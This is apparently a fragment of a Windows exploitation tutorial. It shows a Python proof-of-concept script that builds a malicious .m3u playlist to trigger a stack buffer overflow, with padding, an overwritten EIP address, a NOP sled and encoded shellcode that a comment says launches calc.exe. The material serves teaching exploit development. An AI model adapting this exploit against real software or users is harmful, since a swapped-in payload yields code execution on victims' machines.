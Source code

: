 ![bof](images/windows-exploitation-13-23.png)

```python
shellcode = ("\xbb\xff\xbe\xe1\xd7\xda\xd7\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x31\x31\x5a\x13\x83\xea\xfc\x03\x5a\xf0\x5c\x14\x2b\xe6\x23"
"\xd7\xd4\xf6\x43\x51\x31\xc7\x43\x05\x31\x77\x74\x4d\x17\x7b"
"\xff\x03\x8c\x08\x8d\x8b\xa3\xb9\x38\xea\x8a\x3a\x10\xce\x8d"
"\xb8\x6b\x03\x6e\x81\xa3\x56\x6f\xc6\xde\x9b\x3d\x9f\x95\x0e"
"\xd2\x94\xe0\x92\x59\xe6\xe5\x92\xbe\xbe\x04\xb2\x10\xb5\x5e"
"\x14\x92\x1a\xeb\x1d\x8c\x7f\xd6\xd4\x27\x4b\xac\xe6\xe1\x82"
"\x4d\x44\xcc\x2b\xbc\x94\x08\x8b\x5f\xe3\x60\xe8\xe2\xf4\xb6"
"\x93\x38\x70\x2d\x33\xca\x22\x89\xc2\x1f\xb4\x5a\xc8\xd4\xb2"
"\x05\xcc\xeb\x17\x3e\xe8\x60\x96\x91\x79\x32\xbd\x35\x22\xe0"
"\xdc\x6c\x8e\x47\xe0\x6f\x71\x37\x44\xfb\x9f\x2c\xf5\xa6\xf5"
"\xb3\x8b\xdc\xbb\xb4\x93\xde\xeb\xdc\xa2\x55\x64\x9a\x3a\xbc"
"\xc1\x54\x71\x9d\x63\xfd\xdc\x77\x36\x60\xdf\xad\x74\x9d\x5c"
"\x44\x04\x5a\x7c\x2d\x01\x26\x3a\xdd\x7b\x37\xaf\xe1\x28\x38"
"\xfa\x81\xaf\xaa\x66\x68\x4a\x4b\x0c\x74")

buffer = "http://"
buffer += "A" * 17417
buffer += "\x6e\x9d\x92\x55" # will become EIP 0x55929d6e
buffer += "\x90" * 50 # NOPs
buffer += shellcode # calc.exe (breakpoint replaced)
buffer += "C" * (600 - len(shellcode))

f = open("exploit.m3u", "w")
f.write(buffer)
f.close()
```
